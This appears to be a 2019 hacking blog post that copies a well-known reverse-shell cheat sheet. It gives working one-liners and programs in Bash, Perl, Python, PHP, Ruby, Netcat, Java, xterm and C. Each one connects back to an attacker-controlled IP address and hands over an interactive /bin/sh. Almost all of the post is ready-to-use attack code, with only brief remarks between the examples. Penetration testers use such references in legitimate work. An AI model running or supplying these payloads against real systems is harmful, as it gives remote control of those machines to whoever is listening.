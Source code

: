 ```yaml
---
layout: post
title:  "Shells"
date:   2019-05-15 17:47:44 -0500
author: Larry Brown
category: Hacking
tags: [reverse shell]
---
```


Taken from <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>

#### Bash

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

```shell_session
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```


#### PERL

Here's a shorter, feature-free version of the perl-reverse-shell:

```shell_session
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


#### Python

This was tested under Linux / Python 2.7:

```shell_session
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


#### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

```shell_session
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

If you want a .php file to upload, see the more featureful and robust php-reverse-shell.


#### Ruby

```shell_session
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```



#### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

```shell_session
nc -e /bin/sh 10.0.0.1 1234
```

If you have the wrong version of netcat installed, Jeff Price points out here that you might still be able to get your reverse shell back like this:

```shell_session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```


#### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


#### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

```shell_session
xterm -display 10.0.0.1:1
```

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip


#### C

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void)
{
    int i; // used for dup2 later
    int sockfd; // socket file descriptor
    socklen_t socklen; // socket-length for new connections

    struct sockaddr_in srv_addr; // client address

    srv_addr.sin_family = AF_INET; // server socket type address family = internet protocol address
    srv_addr.sin_port = htons( 443 ); // connect-back port, converted to network byte order
    srv_addr.sin_addr.s_addr = inet_addr("192.168.56.1"); // connect-back ip , converted to network byte order

    // create new TCP socket
    sockfd = socket( AF_INET, SOCK_STREAM, IPPROTO_IP );

    // connect socket
    connect(sockfd, (struct sockaddr *)&srv_addr, sizeof(srv_addr));

    // dup2-loop to redirect stdin(0), stdout(1) and stderr(2)
    for(i = 0; i <= 2; i++)
    dup2(sockfd, i);

    // magic
    execve( "/bin/sh", NULL, NULL );
}
```

Also...

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void) {
    int sockfd;
    int lportno = 5432;
    struct sockaddr_in serv_addr;
    char *const params[] = {"/bin/sh",NULL};
    char *const environ[] = {NULL};

    sockfd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = inet_addr("10.183.0.222");
    serv_addr.sin_port = htons(lportno);
    connect(sockfd, (struct sockaddr *) &serv_addr, 16);

    dup2(sockfd,0);
    dup2(0,1);
    dup2(0,2);
    execve("/bin/sh",params,environ);
}
```

















